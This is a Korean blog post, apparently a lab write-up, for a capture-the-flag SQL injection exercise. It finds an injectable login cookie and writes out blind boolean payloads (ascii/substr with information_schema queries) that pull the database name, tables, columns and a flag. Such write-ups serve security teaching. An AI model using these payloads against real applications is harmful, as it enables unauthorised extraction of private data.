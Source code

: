 ```yaml
---
layout: single
title:  "8 주차 SQL injection 데이터 추출 문제 풀이(1)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 8 주차 SQL injection 데이터 추출 문제 풀이(1)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1  SQLi Point 1 문제 </span>

<br>

<img src="/images/2024-06-09-SQLinjection25/image-20240612180428003.png" alt="image-20240612180428003" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

***

<br>

마이페이지와 게시판이 존재합니다. 우선 접근하기 쉬운 마이페이지를 확인해보도록 하겠습니다. 



![image-20240612180852525](/images/2024-06-09-SQLinjection25/image-20240612180852525.png)

먼저 GET 방식으로 데이터를 전송하고 있습니다. 그래서 밑에 파라미터가 없네요.   
그렇다면 로그인을 유지하기 위해서 어떤 데이터를 전송하는가 보면, cookie 를 보내고 있습니다.  

injection이 가능한가 확인해보면

![image-20240612181135622](/images/2024-06-09-SQLinjection25/image-20240612181135622.png)

![image-20240612181157164](/images/2024-06-09-SQLinjection25/image-20240612181157164.png)

위의 과정을 통해 sql구문을 사용하고 있다는 것을 알아낼 수 있습니다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2  select 문구가 사용가능한 지 체크</span>

***

<br>

![image-20240612182315498](/images/2024-06-09-SQLinjection25/image-20240612182315498.png)

![image-20240612182340457](/images/2024-06-09-SQLinjection25/image-20240612182340457.png)



<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 공격 format 만들기</span>

***

<br>

1234' and ascii(substr((select ~~),1,1))>0 and '1'='1

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

***

<br>

1234' and ascii(substr((select database() limit 0,1),1,1))>0 and '1'='1

![image-20240612201232651](/images/2024-06-09-SQLinjection25/image-20240612201232651.png)

sqli_6

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

***

<br>

select table_name from information_schema.tables where table_schema='sqli_6' limit 0,1

1234' and ascii(substr((select table_name from information_schema.tables where table_schema='sqli_6' limit 0,1),1,1))>0 and '1'='1

![image-20240612201728349](/images/2024-06-09-SQLinjection25/image-20240612201728349.png)

board

![image-20240612201817181](/images/2024-06-09-SQLinjection25/image-20240612201817181.png)

flag_table

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

***

<br>

select column_name from information_schema.columns where table_name='flag_table' limit 0,1

1234' and ascii(substr((select column_name from information_schema.columns where table_name='flag_table' limit 0,1),1,1))>0 and '1'='1

![image-20240612202050063](/images/2024-06-09-SQLinjection25/image-20240612202050063.png)

idx

![image-20240612202118890](/images/2024-06-09-SQLinjection25/image-20240612202118890.png)

flag

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

***

<br>

select flag from flag_table limit 0,1 

1234' and ascii(substr((select flag from flag_table limit 0,1),1,1))>0 and '1'='1

![image-20240612202314180](/images/2024-06-09-SQLinjection25/image-20240612202314180.png)

flagIsHere! Come

![image-20240612202416269](/images/2024-06-09-SQLinjection25/image-20240612202416269.png)

segfault{~~}

